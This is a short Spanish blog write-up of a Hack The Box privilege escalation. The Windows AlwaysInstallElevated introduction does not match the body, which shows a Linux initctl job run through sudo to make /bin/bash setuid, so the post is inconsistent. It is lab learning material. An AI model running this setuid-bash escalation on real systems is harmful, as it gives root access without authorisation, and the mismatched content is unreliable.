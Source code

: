 ```yaml
---
title: "Love HTB Escalando Privilegio"
layout: post
---
```

![Love HTB](/assets/images/love.png)

<h2>Presentación</h2>
En esta ocasión estaré presentando otra escalada de privilegio en windows y es abusando de: AlwaysInstallElevated, me habia tomado tiempo la preparacion de algunos writeUp, ya que estuve preparandome para el eJPT el cual logramos obtener, tesis, mudanza y otras movidas como seguir con networking y firewall desde EVE-NG, pronto..  🤯.

<h2>WinPEAS</h2>
En la fase de busqueda de privilegias, WinPeas nos presenta el siguiente setting:

![Love HTB Escalando Privilegio ](/assets/images/love-1.png)

<h2>Initctl</h2>


![ Spectra HTB Escalando Privilegio ](/assets/images/Image 2.png)

<h2> ¿Qué hago ahora? </h2>
 

{% highlight bash %} sudo -u root /usr/bin/initctl {% endhighlight %}

![ Spectra HTB Escalando Privilegio ](/assets/images/Image 1.png)

<h2>PoC</h2>


{% highlight bash %}
script
    chmod u+s /bin/bash
end script
{% endhighlight %}

-[+] Guardamos e iniciamos nuestro *test.conf*
 
{% highlight bash %} sudo -u root /usr/bin/initctl start test {% endhighlight %}

-[+] Listamos permisos de la /bin/bash `ls -la /bin/bash`

![ Spectra HTB Escalando Privilegio ](/assets/images/Image 4.png)

🖱️_by:_ *@DaVinciRoot*
